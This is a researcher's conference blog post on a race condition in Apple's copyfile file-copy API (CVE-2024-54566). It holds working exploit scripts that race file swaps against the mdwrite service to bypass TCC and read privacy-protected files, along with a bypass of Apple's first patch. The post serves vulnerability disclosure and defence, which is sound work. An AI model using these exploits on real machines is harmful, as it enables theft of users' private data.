

This is a blog post for my presentation at the conference [Nullcon Berlin 2025](https://nullcon.net/berlin-2025/speaker-speaker-exploiting-the-impossible). The slides are uploaded [here](https://github.com/jhftss/jhftss.github.io/blob/main/res/slides/Exploiting%20The%20Impossible.pdf).

I'm going to share with you an interesting race condition issue lurking in Apple’s core file-copy API. Apple was aware of the security issue. But they did nothing at first because they deemed it would be nearly impossible to exploit the bug, due to the race condition’s microscopic time window. But I will prove them wrong.

# Discovery

### Background: Copy a file

How do you copy a file on macOS?

Do you use the system “cp” command directly?

```
cp /path/to/src /path/to/dst
```

Let’s dive into the internals of this command. Do you know how Apple developers copy a file?

You might think that this is a very simple task and that you can write the code manually by yourself:

1. Open the src file
2. Open the dst file
3. Read from the src file
4. Write to the dst file
5. Close the src file
6. Close the dst file

However, in this way, only the **data** content of the file is copied, but the **metadata** of the file is lost. **Metadata** consists of **permissions, extended attributes, access control lists**, and so forth.

So, Apple developers prefer to use the encapsulated APIs to copy a file:

- `copyfile()`

- `clonefile()`

- `NSFileManager`

- - `- (BOOL) copyItemAtURL:(NSURL *) srcURL toURL:(NSURL *) dstURL error:(NSError **) error;`
  - `- (BOOL) copyItemAtPath:(NSString *) srcPath toPath:(NSString *) dstPath error:(NSError **) error;`

- …

### copyfile (C-language API)

The API `copyfile` can be used to copy a file's data and metadata. It has 4 parameters, the first one is the source file path and the second one is the destination file path.

An example is as follows:

```
/* Initialize a state variable */
copyfile_state_t s = copyfile_state_alloc();
/* Copy all the data and meta data of one file to another */
copyfile("/tmp/src", “/tmp/dst", s, COPYFILE_ALL | COPYFILE_NOFOLLOW);
/* Release the state variable */
copyfile_state_free(s);
```

The `copyfile_state_alloc()` function initializes a `copyfile_state` object. And the `copyfile_state_free()` function is used to deallocate the object and its contents. The state object can be used to manipulate the copy state. If the state object is NULL, then the API will work normally, but less control will be available to the caller.

The last parameter is a flag, that controls which contents are copied: 


It should be noted that the flag **COPYFILE_NOFOLLOW** is designed to kill the symlink attack.

### clonefile (syscall API)

The `clonefile` API is used to create a **Copy-on-Write** clone of a file. The cloned destination file shares its data blocks with the source file but has its own copy of attributes and extended attributes. Subsequent writes to either the original or cloned file are private to the file being modified.

This API has 3 parameters. Similarly, the first two parameters are the source file path and the destination file path. Note that **the destination file path must not exist for the call to be successful**.

The third parameter is the options used to control the clone behavior:


Specially, the option **CLONE_NOFOLLOW** stops following symbolic links. The symlink itself will be cloned if the source file path is a symbolic link.

The option **CLONE_NOFOLLOW_ANY** is designed to not follow any symbolic links encountered during pathname resolution. An error is returned if a symlink is encountered before the last component of either the source path or the destination path.

### copyfile vs clonefile


The `copyfile` API performs a traditional byte-by-byte duplication of file data. It is reliable and suitable for any filesystem, but slow and storage-intensive. 

In contrast, the `clonefile` API leverages the **Copy-on-Write (CoW)** capabilities to create instantaneous, space-efficient metadata clones within the same volume, making it dramatically faster and storage-optimal. However, it’s only supported on some limited file system like APFS.

### NSFileManager (Objective-c API)

The high-level file operation APIs are encapsulated in the objective-c class `NSFileManager`:


**Note that if the last component of the source path is a symbolic link, only the symlink itself is copied to the new path.**

Using `NSFileManager` to copy a file is the most commonly used method for Apple developers.

After diving into its internal implementation, I discovered that it invokes the basic C-language API `copyfile` to do the job:


### Importances

So, why should we pay attention to file copy operations?

While fundamentally basic, file copy operations are **extensively used by Apple developers across all platforms**—macOS, iOS, watchOS, and so on. A security flaw in this core API could therefore have widespread impact.

Furthermore, file copy operations are **common attack surfaces in privileged processes**. The privileged processes may have FDA permission or run as root. If the source path is a symlink and is followed, it creates an **arbitrary file read primitive**. Similarly, if the destination path is a symlink and is followed, it creates an **arbitrary file write primitive**.

Consequently, handling file copy operations securely is critical. **Unless absolutely necessary, avoid following symlinks to prevent these exploits.**

### Motivation

Are these basic API methods secure enough?

While reading the **manual page** for using the `copyfile` API, I noticed the **WARNING** section: 


Therefore, Apple was aware of the security risk and had issued the warning to developers.

Is this security risk really there? How does Apple deal with this security risk? Can I turn this risk into a real exploit?

### Investigation

Luckily, the implementation of the `copyfile` API is [open sourced by Apple](https://opensource.apple.com/). After reading the source code, I confirmed that the security risk does exist!


In the pre-phase of the `copyfile` function, it checks the function's arguments:


Interestingly, from the function comments, we can tell that the function is not that simple.

As mentioned before, when you copy a file using the method from the class `NSFileManager`, it calls the `copyfile` function internally with these special flags: **COPYFILE_CLONE**, **COPYFILE_NOFOLLOW_DST** and **COPYFILE_NOFOLLOW_SRC**.

Since we have the **COPYFILE_CLONE** flag, it will first try to call the `copyfile_clone` function.


If the file clone fails, it will **inherit the clonefile flags and fall back to the copyfile function logic**.

When falling back to the copyfile function logic, it first calls the `copyfile_open` function to open the source and destination files. Next, it calls the `copyfile_internal` function to copy the data content byte-by-byte, with the specified metadata:



After diving into the `copyfile_open` function, we can see that the security risk is there:


At line 1834, as we have the **COPYFILE_NOFOLLOW_SRC** flag, it will use the API `lstatx_np` to check the source file type. At line 1850, if the source file type is a symlink, it will set the flag variable `osrc` to **O_SYMLINK**. Next, at line 1884, it opens the source file path with the special flag to open the symlink itself, instead of following the symlink.

This represents a classic **Time-of-Check to Time-of-Use** vulnerability, also known as **“Double Fetch”** issue.

A race condition exists between line 1834 and line 1884. An attacker can exploit this window by:

1. Creating a regular file to pass the check at line 1834.
2. Swapping the file with a symlink before execution reaches line 1884.

Consequently, the symlink is followed due to the absence of the **O_SYMLINK** flag, resulting in the unintended target file being opened.


Next, what about opening the destination file path, does it have the similar issue?


When the flag **COPYFILE_NOFOLLOW_DST** is used, the open flag **O_NOFOLLOW** will be set at least. If the destination path is a symlink, the flag **O_SYMLINK** will be used. Both of the flags will not follow the destination symlink. So it’s safe here.

# PoC

We've now confirmed the vulnerability exists through source code analysis.

To trigger it, there are at least 3 steps:

1. Force the function **copyfile_clone()** to fail, causing it to fall back to the copyfile function logic
2. Place a regular file at the src path to cheat the API “**lstatx_np**”
3. Replace the src with a symlink before **open**ing the src path

Examining the `copyfile_clone()` implementation reveals it calls the API `clonefileat` at line 1119:


To deliberately force this function to fail, simply create the destination file before calling the `clonefileat` API.


To prove the vulnerability, I wrote this test program first:

```
int main(int argc, const char * argv[]) {
    NSLog(@"Preparing...");
    system("echo src > /tmp/src");
    system("echo target > /tmp/target");
    NSLog(@"Waiting for a debugger...");
    getchar();

    NSError *err = nil;
    [[NSFileManager defaultManager]copyItemAtURL:[NSURL fileURLWithPath:@"/tmp/src"] toURL:[NSURL fileURLWithPath:@"/tmp/dst"] error:&err];
    NSLog(@"copyItem return error:%@", err);
    return 0;
}
```

Prepare a source file and a target file, and then copy the source file by using `-[NSFileManager copyItemAtURL:toURL:error:]` method. Note that this method explicitly avoids following source path symlink by design.


Next, attach a debugger to the test program and set two breakpoints within `libcopyfile.dylib`: 


The first breakpoint is at line 1119 for the API `clonefileat`; The second breakpoint is at line 1884 for the API `open`.

When the first breakpoint triggers, execute the command `touch /tmp/dst` to create a destination file, to force the API clonefileat fail.

Step over the API call and then execute the command `rm /tmp/dst` to remove the destination file.

Next, let the test program continue, it will pass the API check at line 1834 because the source file is a regular file now.

When the second breakpoint triggers, execute the commands `rm /tmp/src; ln -s /tmp/target /tmp/src` to replace the source file with a symlink to the target file. 

As a result, the target file is opened and copied, thus the destination file content is "**target**", instead of “**src**”.

# Exploit

### Challenges

Thus far, we've reproduced the vulnerability only under debugger control.

Stable exploitation requires racing three distinct operations:

1. The destination file must be created before calling `clonefileat`, but **not too earlier** during `NSFileManager` invocation, which would trigger an immediate failure.
2. The destination file must be removed after `clonefileat` fails, to avoid interfering with subsequent copyfile behaviour.
3. The source file must be replaced with a symlink precisely between the check at line 1834 and the use at line 1884.

This is a significant challenge given their **extremely narrow time windows**.

### Solutions

To overcome these challenges, we came up with the following solutions:

- Challenges 1 and 2 stem from the API `clonefileat`. If we can change a method to force `clonefileat` to fail, then these two challenges will not exist. The solution is to **mount to the destination directory**, which forces the API `clonefileat` to fail because the `clonefile[at]` API **does not support cross-volume operations**. 
- Challenge 3 does make it difficult to find the right moment to replace the source file. But we can retry it many times, and the probability will eventually win. The solution here is to **swap the source file between a normal file and a symlink in a dead loop**.

### Probability in theory

After mounting to the destination directory, our only remaining task is continuously swapping the source file. Let's calculate the theoretical success probability.

The source path alternates equally between a regular file and a symlink. This means that there is a **50%** chance that it is a regular file and a **50%** chance that it is a symbolic link.

Successful exploitation requires two conditions: 


The initial check must encounter a regular file, while the subsequent open API must encounter a symlink. 

Assuming independent probabilities, this yields a **50%\*50%=25%** success rate.

### Try to exploit

`prepare.sh`:

```
#!/bin/bash
echo src > /tmp/src
echo target > /tmp/target
mkdir /tmp/dir
hdiutil create -size 10m -volname .exploit -ov /tmp/disk.dmg
hdiutil attach /tmp/disk.dmg -mountpoint /tmp/dir
```

After creating the source and target files, mount to the destination directory to force the clone operation to fail and fall back to the copy file function logic.

`racer.m`:

```
int main(int argc, const char * argv[]) {
    if (argc != 3) {
        NSLog(@"Usage:%s /path/to/src /path/to/target", argv[0]);
        return -1;
    }
    symlink(argv[2], "/tmp/lnk");
    while (1) { // swap the src with the symlink to target
        renamex_np(argv[1], "/tmp/lnk", RENAME_SWAP);
    }
    return 0;
}
```

The racer program is designed to permanently swap the source file between a regular file and a symbolic link.

`test.m`:

```
int main(int argc, const char * argv[]) {
    if (argc != 4) {
        NSLog(@"Usage:%s /path/to/src /path/to/dst /path/to/target", argv[0]);
        return -1;
    }
    
    struct stat st = {0};
    lstat(argv[1], &st);
    size_t src_size = st.st_size;
    NSLog(@"src:%s, size=%zu", argv[1], src_size);
    
    char cmd[MAXPATHLEN];
    snprintf(cmd, MAXPATHLEN, "./racer \"%s\" \"%s\" &", argv[1], argv[3]);
    NSLog(@"spawning racer with cmd: %s", cmd);
    system(cmd);

    id dm = [NSFileManager defaultManager];
    NSURL *srcURL = [NSURL fileURLWithPath:[NSString stringWithUTF8String:argv[1]]];
    NSURL *dstURL = [NSURL fileURLWithPath:[NSString stringWithUTF8String:argv[2]]];
    for (int i = 1; i != 100000; ++i) {
        NSLog(@"retry = %d", i);
        [dm removeItemAtURL:dstURL error:nil];
        [dm copyItemAtURL:srcURL toURL:dstURL error:nil];
        memset(&st, 0, sizeof(st));
        if (0 == lstat(argv[2], &st) && (st.st_mode&S_IFMT) == S_IFREG && st.st_size != src_size) {
            NSLog(@"success!");
            system("pkill -9 racer");
            break;
        }
    }
    return 0;
}
```

The test program repeatedly invokes the method `-[NSFileManager copyItemAtURL:toURL:error:]`. 

Before each invocation, it removes the destination path to ensure a clean test environment. After execution, the program verifies results by examining both the destination file type and size. An attempt is considered **successful when the destination is a regular file and the file size is not equal to the source file size**.

The test video is uploaded [here](https://youtu.be/vUeDVw8ruGA).

### A Real Exploit

Our test program confirms this vulnerability is exploitable, though specific attack scenarios depend on the target process's privileges. In order to exploit the vulnerability in an actual system process, we need to **find a target process that copies a file using the vulnerable API**.

1. If the target process is **not sandboxed**, an attacker could read arbitrary files outside of the sandbox.
2. When targeting a process with **root privilege**, an attacker may bypass the file access controls to read root-exclusive files.
3. Another common exploit scenario is the TCC Bypass. All users' privacy data, such as photos, contacts, emails, messages, etc., are protected by TCC. Even root users can't access this data, but **processes with FDA permission** can read all this data. So an attacker can bypass the TCC protection to steal all users’ privacy data by exploiting this vulnerability in a process that has the **FDA** privilege.

### An example target: mdwrite

For example, I identified the **mdwrite** system service as a viable exploitation target.

This process provides the XPC service with name “**com.apple.metadata.mdwrite**”, which remains **accessible to a sandboxed application**, despite lacking sandbox restrictions itself. 

It uses the vulnerable `NSFileManager` file-copy API. 

Crucially, it is signed with the powerful **FDA (Full Disk Access)** entitlement, making it an ideal vector for TCC bypass:


After reverse engineering the XPC service implementation, I found that it dispatches the XPC requests in the following function:


It obtains the `service_id` from the XPC message and performs different operations according to the `service_id`.

When the `service_id` is equal to `0x1002`, the service triggers `NSFileManager`'s file-copy operation at line 116:


However, this operation only processes files with the fixed suffix name: “**.icns**” or “**Info.plist**”. 

While the method `-[NSFileManager copyItemAtURL:toURL:error:]` is explicitly designed to avoid following source symlinks, the underlying implementation `copyfile` contains the vulnerability we exploit.


The next step involves constructing and sending an XPC request with the specific `service_id` (`0x1002`). 

Analysis reveals the `Metadata.framework` already implements a suitable XPC client. Instead of reinventing the wheels, we can directly leverage its existing `mdwrite_send_message()` interface for sending our XPC request:


This function facilitates seven distinct XPC routines, providing ready-made communication channels to the mdwrite service.

One of the XPC routine functions is called “`MDWriteCopyLabelUpdateData`”, which constructs an XPC message with the `service_id` equal to `0x1002`:


This internal routine becomes accessible through the public API “`MDLabelSetAttributes`”, providing a direct pathway to trigger the vulnerable code path:


Therefore, we can trigger the vulnerability in mdwrite service by using `trigger.m`:

```
int main(int argc, const char * argv[]) {
    CFUUIDRef uuid = CFUUIDCreateFromString(0, CFSTR("5C3BA52B-E672-45F9-A913-BBA48517CAEB"));
    MDLabelRef label = MDCopyLabelWithUUID(uuid);
    NSLog(@"label:%p", label);
    MDLabelSetAttributes(label, (__bridge CFDictionaryRef)@{@"kMDLabelDisplayName":@"displayName"});
    
    return 0;
}
```

Prepare a specially crafted "mdlabel" bundle on the disk:


Then retrieve the mdlabel using its designated UUID. Next, invoke the API `MDLabelSetAttributes` to send an XPC request to the **mdwrite** service to trigger the vulnerable file-copy operation.

Within the **mdwrite** service, the vulnerable operation copies the “**Info.plist**” file from `$SRC` to `$DST`:

```
SRC="${HOME}/Library/Mobile Documents.tmp/com~apple~system~spotlight/mdlabels/kind.mdlabels/Contents/Info.plist"
DST="${HOME}/Library/Metadata/kind.mdlabels/Contents/Info.plist"
```

Notes that both paths reside in **user-accessible locations** requiring no special privileges for read and write access.

Same as before, prior to exploiting the vulnerability, we need to mount to the destination directory to force the clone operation to fail and fall back to the vulnerable copy file function logic:

```
#!/bin/bash
# Usage: ./prepare.sh
……

cp -r /tmp/mdlabels ~/Library/Mobile\ Documents.tmp/com~apple~system~spotlight/

hdiutil create -size 10m -volname .exploit -ov /tmp/disk.dmg
hdiutil attach /tmp/disk.dmg -mountpoint ~/Library/Metadata/kind.mdlabels/Contents
```

Next, `exploit.sh` operates as follows: 

```
#!/bin/bash
# Usage: ./exploit.sh /path/to/any-tcc-protected-file
SRC="${HOME}/Library/Mobile Documents.tmp/com~apple~system~spotlight/mdlabels/kind.mdlabels/Contents/Info.plist"
DST="${HOME}/Library/Metadata/kind.mdlabels/Contents/Info.plist"

/tmp/racer "$SRC" "$1" &
while true; do
    echo "triggering the copyfile in mdwrite..." # copy the "Info.plist" from $SRC to $DST
    /tmp/trigger
    
    if [ -L "$DST" ]; then
        echo "$DST is a symlink"
    else
        if [ -f "$DST" ]; then # if dst is a regular file, check the file size
            size=$(wc -c < "$DST" 2>/dev/null)
            if [ "$size" -ne 1 ]; then # success if dst's size is not equal to src's size
                echo "success, we got the target at $DST!"
                break
            else
                echo "$DST is the content of src, not the target"
            fi
        else
            echo "$DST does not exist"
        fi
    fi
    
    echo "retry..."
    rm "$DST" 2>/dev/null
    pkill -9 mdwrite # restart mdwrite service and trigger the copy again
    sleep 0.1
done
```

After spawning the `racer` program, it continuously triggers the vulnerable file copy operation until a successful attempt occurs. Each attempt will yield one of four different results:

1. The destination path is still a symbolic link, which is the expected API behavior.
2. The destination file content is identical to the source file content.
3. The destination path doesn’t exist.
4. The destination file content is identical to the target file content, which means that the exploit was successful.

The exploit video is uploaded [here](https://youtu.be/lrAUbRon0SY).

# Apple’s Patches

### The first patch

Apple first patched the vulnerability in macOS Sequoia 15.0 as the **CVE-2024-54566** (pending publication):


Prior to opening the source file, the new code retrieves the **expected source file type** via the API “`lstatx_np`”. Then, it calls the API “`open`” at line 1941 to open the source file in the same way as before.

Subsequently, it performs a **double check** via the API “`lstat`” and stores the check result in the variable `repeat_sb`: 


This post-open source file type is then compared against the pre-open expectation. A mismatch will trigger an error return.


Is it secure now? No, Apple didn’t deeply understand the race condition issue yet. So the patch here didn’t work at all.

Since the source file path remains attacker-controlled, bypassing Apple's patch is straightforward: 

simply replace the symlink with a regular file after calling the API “`open`” at line 1941, but before the final “`lstat`” API validation.

Therefore, Apple actually patched the vulnerability from a “**Double Fetch**” issue to a “**Triple Fetch**” issue. 

Now it fetches the source file from the disk three times:

1. 
2. 
3. 


Consequently, **my original exploit remains effective against the patched version without modification**. Apple's patch merely reduces the success probability by introducing a third validation step. 

Prior to the release of the patch, the theoretical success rate of exploiting this vulnerability was **50%\*50%**.


After this patch, the additional check requires that the source file be a regular file, thereby reducing the probability to **50%\*50%\*50%=12.5%**.

### The second patch

With the latest source code unavailable at the time of writing, I reverse-engineered the `libcopyfile.dylib` module from the `dyld_shared_cache`. An analysis of the `copyfile_open` function revealed Apple's new patch code: 


It now uses the API `fstat` to verify the source file's "**inode number**” through the previously opened file descriptor. This validation **ensures consistency between the initial check and subsequent file operations** by confirming both accesses refer to the same file inode.

# Take Away

### For blue team

- Don’t overlook the security risk due to the narrow time window
- Validate patches against TOCTOU
- Handle file copying operations with caution. **Unless necessary, do not follow symbolic links**.
- **fd-based** operation is better than **path-based** operation (open the **fd** safely)

### For red team

- Escape the **"Documented Behavior" Trap** (e.g., “`NSFileManager` doesn’t follow symlinks” **?**)
- Pay attention to all file operations in privileged processes
- Probability > Perfection (Entropy favors the attacker)
- Patch diffing reveals bypass opportunities
- The full exploit code is public: https://github.com/jhftss/POC 

